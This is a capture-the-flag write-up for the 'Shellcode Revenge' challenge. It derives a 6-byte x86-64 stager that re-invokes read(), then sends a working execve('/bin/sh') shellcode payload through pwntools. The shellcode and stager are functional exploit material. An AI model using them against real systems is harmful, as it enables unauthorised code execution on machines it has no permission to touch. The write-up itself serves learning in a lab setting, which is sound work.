

# Shellcode Revenge

First, let's take a look at `shellcode_revenge.c`:

  ```C
  #include<stdio.h>

  char code[6];

  int main(){
      setvbuf(stdout,0,2,0);
      puts( "Give me your shellcode , I will execute it directly , but only 6 bytes :(");
      puts( "Six bytes is enough for excellent hacker :)" );

      int (*yuawn)() = (int(*)())code;

      read( 0 , code , 6 );

      puts("Your shellcode is running... 66666666");
      yuawn();

      return 0;
  }
  ```
We can see that `read( 0 , code , 6 )` completely fills up `code[6]` so it is impossible to use that for overflow and yet it is impossible to insert a shellcode that runs `execve("/bin/sh\0", 0, 0)` in 6 bytes.

So, let's go on to `objdump -d shellcode_revenge`:
  
  ```
  400637:	48 c7 45 f8 59 10 60 	movq   $0x601059,-0x8(%rbp)
  40063e:	00 
  40063f:	ba 06 00 00 00       	mov    $0x6,%edx
  400644:	be 59 10 60 00       	mov    $0x601059,%esi
  400649:	bf 00 00 00 00       	mov    $0x0,%edi
  40064e:	b8 00 00 00 00       	mov    $0x0,%eax
  400653:	e8 78 fe ff ff       	callq  4004d0 <read@plt>
  ```
  
We can see that  `read( 0 , code , 6 )` will read to the address `0x601059`, which is the beginning of `code`.

But, we still don't know what to put for a 6-byte shellcode.

Now, it is time for `gdb-peda` and check what are in the registers at the time `yuawn()`, which is our shellcode, is going to run:

  
  
And we can find something interesting...

First, under Linux x86-64 environment, the id and parameters for system call `read` are:

  * rax = 0
  * rdi = 0
  * rsi = pointer to store
  * rdx = length to read
  
From gdp-peda, we can see:

  * rax = 0
  * rdi = 0x1
  * rsi = 0x7fff7dd26a3
  * rdx = 0x601059
  
Wow! They are almost the same!  

What we need to do is make rdi = 0 and make rsi = 0x601059 to read again. (rdx does not matter since we do not have a read limit)

With the help of [online assembler](http://shell-storm.org/online/Online-Assembler-and-Disassembler/), I was able to find a 6-byte shellcode to execute read.

First, of course, `syscall` is needed, which is `\x0f\x05`. So, 4 more bytes are needed before it.

Next, an easy one -- make rdi = 0. I tried `mov rdi, 0` `mov edi, 0` `mov dil, 0` these are still too long. 

Then I remeber one `dec edi`, which will be `\xff\xcf`, perfect!   
  * Note: I later found out that `xor edi, edi` is also 2 bytes
  
Finally, last part: make rsi = 0x601059. This was hard, but after googling, I found a method that I could try -- `xchg`.
So, `xchg edx,esi`, which is `"\x87\xf2"`, hmmmmm 2 bytes!

So, the 6-byte shellcode will be:

    "\x87\xf2\xff\xcf\x0f\x05" 
    
When `yuawn()` runs the shellcode it will start another read, which will look like `read(0, code, a large number)`. Therefore, we need to overwrite the original 6-byte shellcode with padding first, then follow up with the shellcod used in the previous question.

In the end, the payload will look like:

  ```python
  p.sendline(b"\x87\xf2\xff\xcf\x0f\x05"+ b"\x90"*6 +
	   b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
  ```
  
    


